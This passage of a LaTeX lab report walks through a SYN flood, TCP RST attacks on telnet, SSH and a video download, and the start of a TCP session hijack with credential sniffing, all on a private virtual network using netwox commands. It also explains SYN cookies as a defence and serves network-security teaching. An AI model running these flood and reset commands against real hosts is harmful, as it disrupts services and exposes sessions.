			\draw (-3.9,0.75) -- (-3.5,0.4);
			\draw (-5.5,0.4) -- (-3.5,0.4);
			\draw (-5.1,0.75) -- (-4.9,0.75);
			\draw (-3.9,0.75) -- (-4.1,0.75);
			\draw (-4.5,-0.3) node[text width=3cm, align=center]{User\\192.168.43.154};
			
				\draw[fill=green!10] (3.05,2.15) rectangle (4.35,1.25);
			\draw (2.9,2.3) rectangle (4.5,1.1);
			\draw (4.1,1.1) rectangle (3.3,0.6);
			\draw (3.1,0.75) -- (2.7,0.4);
			\draw (4.3,0.75) -- (4.7,0.4);
			\draw (2.7,0.4) -- (4.7,0.4);
			\draw (3.1,0.75) -- (3.3,0.75);
			\draw (4.3,0.75) -- (4.1,0.75);
			\draw (3.7 ,-0.3) node[text width=3cm, align=center]{Server\\192.168.43.157};
			
			\draw (3.7,-0.8) -- (3.7,-2.4);
			\draw (-4.5,-0.8) -- (-4.5,-2.4);
			\draw (-0.4,-0.8) -- (-0.4,-3.7);
			\draw (3.7,-2.4) -- (0.4,-3.95);
			\draw (-4.5,-2.4)--(-1.2,-3.95);
			\draw[densely dotted, line width=0.3mm](-4.5,-1.5) -- (3.7,-1.5);
			
			
			\draw[fill=yellow!10] (-1.05,-3.85) rectangle (0.25,-4.75);
			\draw (-1.2,-3.7) rectangle (0.4,-4.9);
			\draw (0,-4.9) rectangle (-0.8,-5.4);
			\draw (-1,-5.25) -- (-1.4,-5.6);
			\draw (0.2,-5.25) -- (0.6,-5.6);
			\draw (-1.4,-5.6) -- (0.6,-5.6);
			\draw (-1,-5.25) -- (-0.8,-5.25);
			\draw (0.2,-5.25) -- (0,-5.25);
			\draw (-0.4,-6.3) node[text width=3cm,align=center]{Gateway\\192.168.43.2};
				\end{tikzpicture}
			\caption{Network Configuration}
			\label{fig:Networksetup}
		\end{figure}
			
		\item{\textbf{Starting relevant services}}
		\begin{par}
		To start the services required for this lab, the following command must be executed in Terminal with \texttt{root} privileges.
		\begin{verbatim}
		# service vsftpd start; service openbsd-inetd start
		\end{verbatim}
		Either of the following messages must appear in Terminal to ensure the successful operation of the attacks performed in the following sections.
		\end{par}
		\begin{enumerate}
			\item
			\begin{par}
		\end{par}
		\begin{verbatim}
		start: Job is already running: vsftpd
		 * Starting internet superserver inetd                [OK]
		\end{verbatim}
		\item
		\begin{par}
		\begin{verbatim}
		vsftpd start/running, process 20727
		 * Starting internet superserver inetd                [OK]
		\end{verbatim}
		\end{par}
	\end{enumerate}
\end{enumerate}
	\subsection{SYN Flood Attack}
	It is assumed that the IP address of the server is not known. In this instance \texttt{netwox} can be used to sniff out the addresses. The following command sniffs packets and displays the protocol used and the IP address of the sender.
	\begin{verbatim}
	# netwox 8 --device "Eth0"
	\end{verbatim}
	\vspace{1em}The results from the execution of the command are displayed below.
	\begin{verbatim}
	UDP	    192.168.43.255      138
	UDP	    239.255.255.250     1900
	UDP	    192.168.43.157      42734
	UDP	    192.168.43.2        53
	\end{verbatim}
	*Duplicate lines have been omitted for simplicity\\\\When the lines are analysed, the IP Address\begin{enumerate}
		\item 192.168.43.255 is a broadcast address where all  systems on the network uses it to receive NetBIOS datagrams through UDP port 138. xxx.xxx.xxx.255 is a common broadcast address over networks.
		\item 239.255.255.250 with UDP port 1900 is assigned to the \textit{Simple Service Discovery Protocol (SSDP)}, used for the discovery of Universal Plug and Play (UPnP) devices.
		\item 192.168.43.2 with port 53 is assigned to the \textit{Domain Name System (DNS)}, where domain name endpoints are mapped to the respective system IP addresses.
		\item 192.168.43.157 with port 42734 is not officially assigned to any function or program.
	\end{enumerate}
It is also widely known that UDP ports 53, 138 and 1900 are officially assigned by the Internet Assigned Numbers Authority (IANA) and are not related to the \texttt{vsftpd} and \texttt{telnet} services that were previously started. \\\\Furthermore, to check the gateway address, we can use the following command in Terminal.
\begin{verbatim}
# route -n
\end{verbatim}
\vspace{1em} The output will state clearly the address of the network gateway.
\begin{verbatim}
Destination   Gateway       Genmask       Flags Metric Ref Use Iface
0.0.0.0       192.168.43.2  0.0.0.0       UG    0      0     0 eth0
169.254.0.0   0.0.0.0       255.255.0.0   U     1000   0     0 eth0
192.168.43.0  0.0.0.0       255.255.255.0 U     1      0     0 eth0
\end{verbatim}
\vspace{1em}From the output it can clear that the server has IP address 192.168.43.157.\\\\We will also need to know the queue size on the server to know the number of connections that the server can respond to at any one time. To do so, the following Terminal command will display the queue size.
\begin{verbatim}
# sysctl -q net.ipv4.tcp_max_syn_backlog
\end{verbatim}
The default SYN queue size for the linux virtual machine is 128.\\\\
Before starting the attack, the number of \texttt{SYN\_RECV} is checked to ensure that the number of open connections subsequently is not due to any existing open sockets.
\\\\To print the number of connections, instead of the full details, the following command is used.
\begin{verbatim}
# netstat -an | grep SYN_RECV | wc -l
\end{verbatim}
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{SYSRECVBefore}
	\caption{No \texttt{SYN\_RECV} connections before attack}
	\label{fig:sysrecvbefore}
\end{figure}
\noindent An additional step is to disable the SYN cookie counter-mechanism and it can be done with the following line.
\begin{verbatim}
# sysctl -w net.ipv4.tcp_syncookies=0
\end{verbatim}
To start the TCP attack, \texttt{netwox} tool 76 can be used. As \texttt{netwox} is a command-line utility, it may not be convenient for novice users. In this instance, \texttt{netwag} can be used to generate the code needed for execution in \texttt{Terminal}.
\\\\We know that we want to saturate the telnet port (TCP 23) with SYN requests. And since the IP address of the server have been previously known, we can use the following command to flood the server with SYN requests.
\begin{verbatim}
# netwox 76 -i 192.168.43.157 -p 23
\end{verbatim}
On the server, the number of \texttt{SYN\_RECV} requests are recorded, again by using the \texttt{netstat} command as mentioned above. This time, it can be noted that there is a large number of connections currently in the \texttt{SYN\_RECV} stage and are awaiting an \texttt{ACK} from non-existent endpoints.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{SYSRECVAfter}
	\caption{Large number of \texttt{SYN\_RECV} requests}
	\label{fig:sysrecvafter}
\end{figure}
\noindent Furthermore, if we were to remove the ``\texttt{| wc -l}" switch, we will notice the different connections that the system is currently awaiting an \texttt{ACK} signal from.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{SYNRECVlist}
	\caption{List of \texttt{SYN\_RECV} connections}
	\label{fig:synrecvlist}
\end{figure}
\noindent During the SYN flooding attack, if a legitimate user were to connect to the server, the server will not be able to process any new SYN requests and any attempt to connect to the server will eventually timeout as Figure \ref{fig:telnettimeout} has shown.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{telnettimeout}
	\caption{Timeout using \texttt{telnet}}
	\label{fig:telnettimeout}
\end{figure}
\noindent From the server, we can analyse the packets using Wireshark. The tool when run on the server, will analyse all packets that is being transmitted and received from the respective network interface.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{PacketAnalysis}
	\caption{Packet Analysis in Wireshark (\texttt{SYN\_RECV})}
	\label{fig:packetanalysis}
\end{figure}
\noindent Referring to Figure \ref{fig:packetanalysis}, we notice that packets being sent from the attacker's system has the source IP generated randomly, with the intention of opening half-opened connections without closing it. Furthermore, since the virtual machine is connected to the internet, there may be a case where there might be an \texttt{ACK} from a connection. The bulk of it however will not receive an \texttt{ACK} signal and force the system to maintain the \texttt{SYN\_RECV} signal. Again referring to Figure  \ref{fig:packetanalysis}, on the bottom right we notice that the number of SYN packets that was sent totalled to 266936, out of the 268003 packets that was captured (99.6\%). 
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{PacketAnalysis2}
	\caption{Packet Analysis in Wireshark (\texttt{ACK})}
	\label{fig:packetanalysis2}
\end{figure}
\noindent In contrast, the number of packets received with the \texttt{ACK} signal was 1328 (0.5\%). The number may also be lower as other programs running in the background may be connecting to legitimate services.
\\\\Current methods to prevent a SYN flooding attack may include increasing the size of the SYN queue or enabling the SYN cookie option. To perform the latter, the following command must be executed in a privileged \texttt{Terminal}.
\begin{verbatim}
# sysctl -w net.ipv4.tcp_syncookies=1
\end{verbatim}
If the attack is performed again with the SYN cookie enabled, we note that the number of \texttt{SYN\_RECV} connections (256) is larger than the size of the SYN queue (128).
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{SYNRECVCookieon}
	\caption{Number of \texttt{SYN\_RECV} entries}
	\label{fig:synrecvcookieon}
\end{figure}
\noindent By enabling SYN cookies, the server behaves as if the SYN queue has been enlarged. In addition, when the server receives a \texttt{SYN} request, it sends a \texttt{SYN+ACK} message to the sender and removes it from the SYN queue, freeing up resources to process new requests. If the request is legitimate and the server receives back an \texttt{ACK} message, the connection will be established by using the information contained in the TCP sequence number.\\\\Now that the SYN cookies have been enabled, executing the \texttt{telnet} command will allow the connection to be established even if the SYN queue is full. Figure \ref{fig:telnetconn} shows that this assumption is true and the connection can be made between the server and the user.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{telnetconn}
	\caption{\texttt{Telnet} connection established}
	\label{fig:telnetconn}
\end{figure}

	\subsection{TCP RST Attacks on \texttt{telnet} and \texttt{ssh} Connections}	
	This task will focus on the breaking of \texttt{telnet} and \texttt{ssh} connections on the network. This method involves the attacker sniffing the network for packets originating or terminating at the selected endpoint and sending TCP reset (RST) packets to forcefully break the connection between two parties. This involves the RST flag of the TCP header to be set to 1, indicating to the endpoints that it must immediately terminate the connection.This technique can be used to maliciously interrupt Internet connections and block sites.\\\\On a normal connection via \texttt{telnet}, the user will be able to connect to the server and execute remote Terminal commands.
	\begin{figure}[H]
		\centering
		
\includegraphics[width=1\linewidth]{telnetconn}
		\caption{\texttt{Telnet} connection established}
		\label{fig:telnetconn2}
	\end{figure}
	\noindent To manipulate the TCP connections, \texttt{netwox} must be used again. However, \texttt{netwox 78} must be used. This tool involves listening of the network and changing the RST flags of the TCP header to be enabled. To use \texttt{netwox 78}, the following code is used:
	\begin{verbatim}
	# netwox 78 --device "Eth0" --filter "dst host 192.168.43.157"
	\end{verbatim}
	The \texttt{--device} parameter is to define the network interface that will be used for listening to the connection and sending the RST packet while the \texttt{dst host} parameter is the IP address to keep note of. Once the above code has been executed by the attacker, any input that is made on the user's console will break the connection.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{telnetbreak}
	\caption{Connection break}
	\label{fig:telnetbreak}
\end{figure}
\noindent As demonstrated in Figure \ref{fig:telnetbreak}, typing a single character `` \`{} '' is sufficient to break the connection between the two endpoints, indicated by the string ``Connection closed by the foreign host.''\\\\The same attack is tried on an SSH connection. SSH is an acronym for \textbf{S}ecure \textbf{SH}ell, which allows for encrypted information to be sent over an unsecured channel, which is an extension of Telnet.\\\\On first connection using SSH, an ECDSA key fingerprint from the server must be accepted to establish trust between the endpoints before a secure connection can be established. The following code is used to login to the endpoint and this process is reflected below.
\begin{verbatim}
$ ssh seed@192.168.43.157
\end{verbatim}
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{sshacceptance}
	\caption{Acceptance of SSH key and login}
	\label{fig:sshacceptance}
\end{figure}
The disruption of the network connection is repeated using the same technique as the Telnet task as previously done, and the result is shown in Figure \ref{fig:sshbroken}.
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{sshbroken}
	\caption{SSH Connection Terminated}
	\label{fig:sshbroken}
\end{figure}
\subsection{TCP RST Attacks on Video Streaming Applications}
\begin{par} The same attack as done in the previous task can be extended to video streaming applications. This can be done to disrupt the TCP sessions between any user and the respective server. To initiate the attack, a large video (approximately 5GB) is placed on the server at the location \texttt{/var/www/vid/} where the video can be viewed via a web browser with reference to the IP address of the server (\texttt{http://192.168.43.157/vid/2k10game.avi}).\\\\However, if the attack is done while the video is playing in the browser, the disruption may not be immediate due to the buffering. To simplify the task, we use \texttt{wget} to emulate the transfer of the video data via TCP connections (TCP port 80).\\\\To start the transfer of the video from the server to the user, the following command can be used.
	\end{par}
\begin{Verbatim}
$ wget -O ./Desktop/vid.avi http://192.168.43.157/vid/2k10game.avi
\end{Verbatim}
By executing the command, (multiple) TCP connections between the endpoints will be established and transferring will occur. Figure \ref{fig:wget} shows the transferring of the video using TCP connections via Terminal.

\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{wget}
	\caption{TCP Connections via \texttt{wget}}
	\label{fig:wget}
\end{figure}
\noindent If the attacker executes the command to disrupt the TCP connections, the user will eventually realise that the video will be interrupted and a refreshing of the browser will not re-establish the connection, permanently disabling the channel between the user and the server. Figure \ref{fig:wgeterror} shows the attempt to connect from the user's side after an attacker has used \texttt{netwox} to reset the TCP packets.

\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{wgeterror}
	\caption{TCP disruption on Video Streaming}
	\label{fig:wgeterror}
\end{figure}
\noindent We can also see that interruption of the connection, there is no transfer of any data. This makes it useful for legitimate uses such as a corporate firewall.
\subsection{TCP Session Hijacking}
\begin{par}This task will involve the hijacking of a TCP session to compromise an established connection. It can be used to inject malicious code to either endpoint and compromising the integrity of the systems. \texttt{Netwox 40} will be used in this task to spoof TCP packets.\\\\Before attempting to spoof any packets, the IP addresses and the TCP port numbers of both endpoints must be known. Wireshark can be used to listen to the packets on the local network. \\\\To start capturing the required packets, a Telnet connection needs to be established. A Terminal is opened and the Telnet command is executed. As the Virtual Machines might have other programs that are transmitting packets to endpoints over the internet, it is significantly useful to display the captured packets with the required relevant information. As most of the details are already known from the previous sections, the following expression can be used to filter the packets.
	\end{par}
	\begin{verbatim}
	(ip.addr==192.168.43.157 || ip.addr==192.168.43.154)&& tcp.port==23
	\end{verbatim}
	\begin{par}
	\noindent The filter above will only display packets that are being sent between the user and the server with reference to Telnet (TCP Port 23). Figure \ref{fig:telnetpacket} shows the filtered display with the required packets that will be used for analysis later.\end{par}
	
\begin{figure}[H]
	\centering
	
\includegraphics[width=1\linewidth]{telnetpacket}
	\caption{Filtered Telnet Packets}
	\label{fig:telnetpacket}
\end{figure}
\begin{par}
	\noindent Before proceeding, it is important to check if the filtered packets are those that are required for analysis. To do so, the stream can be analysed to determine the information that has been transmitted. In the case of Telnet, the transmission is across an unsecured channel with no encryption or hashing and can easily be read when analysing from Wireshark. Figure \ref{fig:telnetsniff} displays how the username and password of the Telnet connection can be obtained when the option ``Follow TCP Stream'' is used on the correct stream of packets, which indicates the respective stream that is required for injecting arbitrary code later.
\end{par}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\linewidth]{telnetsniff}
	\caption{Telnet Details Revealed}
	\label{fig:telnetsniff}
\end{figure}


	\begin{par}
	\noindent It is also important to note that the sequence numbers (seqnum) and acknowledge numbers (acknum) are relative to the respective packets being transmitted and may not reflect the actual value. To change this, the option for relative sequence numbers is disabled. This can be done by right-clicking the TCP field in the packet, selecting protocol preferences and de-selecting the ``Relative Sequence Numbers" option. Figure \ref{fig:frameopt} provides a visual guide on where this option can be found on Wireshark (\textbf{Note:} Older Ethereal versions will have this option named as ``Relative Sequence Numbers and Window Scaling).\end{par}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\linewidth]{frameopt}
	\caption{Relative seqnum Option}
	\label{fig:frameopt}
\end{figure}
\begin{par}
	\noindent By analysing specifically packets with the info ``Telnet Data...", it is immediately noticeable that each succeeding packet between both endpoints alternates the ``Next sequence number" and ``Acknowledgement number". Figure \ref{fig:seqnum} shows the different fields present in the TCP packet.
	\end{par}
\begin{figure}[H]
